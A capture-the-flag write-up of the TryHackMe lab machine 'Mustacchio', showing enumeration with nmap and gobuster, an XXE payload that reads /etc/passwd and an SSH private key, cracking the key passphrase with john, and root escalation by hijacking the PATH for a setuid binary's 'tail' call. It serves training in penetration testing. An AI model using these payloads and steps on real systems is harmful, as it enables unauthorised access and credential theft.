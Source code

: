 ```yaml
---
title: "Mustacchio"
date: 2025-01-22
image: /assets/img/tryhackme/Mustacchio/Mustacchio_image.jpg
description: Writeup of the TryHackMe-CTF Mustacchio
categories: [TryHackMe, Easy]
tags: [linux, enumeration, revshell, web, privesc, xxe]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mustacchio</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Easy boot2root Machine</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/mustacchio">https://tryhackme.com/r/room/mustacchio</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Mustacchio.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:42 EST
Nmap scan report for 10.10.114.250
Host is up (0.037s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

Nmap done: 1 IP address (1 host up) scanned in 118.78 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 22,80,8765 10.10.114.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 05:45 EST
Nmap scan report for 10.10.114.250
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```
from here I analyzed the services one after another.

## HTTP Analysis
As we can see in the nmap output there is a robots.txt file, but didn't reveal anything useful. Therfore I started a `gobuster` directory enumeration:
```bash
$ gobuster dir --url http://10.10.114.250/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,bak,txt,sh
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,bak,txt,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 315] [--> http://10.10.114.250/images/]
/contact.html         (Status: 200) [Size: 1450]
/about.html           (Status: 200) [Size: 3152]
/blog.html            (Status: 200) [Size: 3172]
/gallery.html         (Status: 200) [Size: 1950]
/custom               (Status: 301) [Size: 315] [--> http://10.10.114.250/custom/]
/robots.txt           (Status: 200) [Size: 28]
/fonts                (Status: 301) [Size: 314] [--> http://10.10.114.250/fonts/]
```
While gobuster was running I performed some manual enumeration but didn't found anything interesting. Therefore I waited for the scan and started analyzing the results.
### /custom directory

The directoy had file browsing available so I found the file `/custom/js/user.bak`. I downloaded it and see what we get from it:
```bash
$ file user.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```
With `SQLiteBrowser` I was able to check the entries in the database. I found just one table called `users` with one entry. The entry provided the username admin and a hash value. I tried to get more information about this hash value:
```bash
$ hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
```
SHA1 hashes can be found in the <a href="https://crackstation.net/">CrackStation</a> database, so I gave it try: 
![CrackStaion result](/assets/img/tryhackme/Mustacchio/thm_mustacchio_1.jpg){: width="1014" height="86"}

The other directories didn't provide anything useful so I moved on.

## Port 8765 Analysis
The server provided another website with a login form under port 8765. 
![Admin Login](/assets/img/tryhackme/Mustacchio/thm_mustacchio_2.jpg){: width="332" height="350"}

I tried the credentials for the user admin I got in the previous step and was able to login. Always start with source code analysis, which reveal me the following comment:
```html
<!-- Barry, you can now SSH in using your key!-->
```

The website had a textfeld and a headline which said `"Add a comment on the website."`. After some tests I got the following error message:

![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_3.jpg){: width="412" height="350"}

XML always sounds like XXE so I tried the following payload...
```text
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>&thmFile;</name>
   <author></author>
   <comment>glitch@wareville.com</comment>
</people>
```
... and had success:

![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_4.jpg){: width="2578" height="787"}

With the comment about Barry's ssh key could be found somewhere I tried to look for it:

![XML Comment Textfield](/assets/img/tryhackme/Mustacchio/thm_mustacchio_5.jpg){: width="2578" height="787"}

That must be Barry's ssh key so I downloaded it and prepared it to use it. First extract the hash using `ssh2john` to crack the password we need for the connection:
```bash
$ ssh2john id_rsa > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (id_rsa)
1g 0:00:00:00 DONE (2025-01-22 05:58) 2.127g/s 6320Kp/s 6320Kc/s 6320KC/s urieljr.k..urielandrea
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now where I had the password I was able to connect via ssh and read the user flag:

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa barry@10.10.114.250
barry@mustacchio:~$ hostname
mustacchio
barry@mustacchio:~$ cat user.txt
[*** removed ***]
```
## Privilege Esclation
While searching a way to escalate my privileges I found an intersting binary:
```bash
barry@mustacchio:/home/joe$ ls
live_log
barry@mustacchio:/home/joe$ file live_log
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

The file `live_log` just prints out the current webserver `access.log`. With the commandline utility `strings` I was able to get more insights:
```bash
barry@mustacchio:/home/joe$ strings live_log
[*** removed for readability ***]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
[*** removed for readability ***]
```
Intersting is that `tail` didn't use an absolute path what we can missuse. I created a file called `tail` in barrys home directory (`/home/barry`) and inserted the following code:
```python
!/usr/bin/python3
import pty
pty.spawn("/bin/bash")
```
Making the new `tail` an executable, modify our path variable and finally execute the `live_log` gave me root access: 

```bash
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=$PWD:$PATH
barry@mustacchio:~$ ../joe/live_log
root@mustacchio:~# whoami
root
root@mustacchio:~# cd /root
root@mustacchio:/root# cat root.txt
[*** removed ***]
```

solved! :)
